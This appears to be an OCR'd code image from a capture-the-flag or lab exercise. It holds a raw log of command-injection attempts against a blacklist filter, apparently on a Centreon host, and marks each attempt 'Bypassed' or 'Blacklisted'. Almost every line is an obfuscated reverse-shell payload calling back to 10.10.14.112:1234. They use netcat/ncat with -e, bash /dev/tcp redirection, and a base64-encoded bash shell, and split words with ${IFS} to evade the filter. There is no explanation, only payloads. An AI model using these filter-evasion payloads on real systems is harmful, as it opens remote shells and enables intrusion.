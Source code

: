 ```bash
S=${IFS};D=-e;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B  Bypassed
S=${IFS};D=-e;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S  Bypassed
S=${IFS};D=-e;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S  Bypassed
S=${IFS};D=-e;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S<  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S<  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S<  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$E$S$B  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$E$S$B$S|$S$N$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$E$S$B$S|$S$N$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$E$S$D$S|$S$N$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$E$S$D$S|$S$N$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$S$N$S$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=sh;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=sh;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=nc;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=nc.traditional;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=nc.traditional;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=ncat.traditional;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=ncat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;/bin/$B$S$D>&/dev/tcp/$I/$P$S0>&1  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;/bin/$B$S$D>&/dev/tcp/$I/$P$S0>&1  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;L=0>&1;/bin/$B$S$D>&/dev/tcp/$I/$P$S$L  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;L=0>&1;/bin/$B$S$D>&$S/dev/tcp/$I/$P/$S$L  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;python  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;ls  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;whoami  Bypassed
whoami  Bypassed
whoami\\   Blacklisted.
whoami  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;ls  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;F=/usr/local/centreon/filesGeneration/engine/1/centengine.DEBUG;cat 	
  Blacklisted.
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;$B$S$D$S/dev/tcp/10.10.14.112/1234 0>&1  Blacklisted.
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;$B$S$D$S/dev/tcp/10.10.14.112/1234$S0>&1  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;L=0>&1;$B$S$D$S/dev/tcp/10.10.14.112/1234$S$L  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;socat  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;socat$S--help  Bypassed
S=${IFS};D=-i;E=echo;B=bash;I=10.10.14.112;P=1234;python  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=ncat.traditional;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};D=-e;E=echo;B=bash;I=10.10.14.112;P=1234;N=netcat;$S$N$S$D$S$B$S$I$S$P$S  Bypassed
S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B  Bypassed
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Bypassed
bash  Bypassed
bash&&/usr/bin/centengin  Bypassed
&& $(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Blacklisted.
```
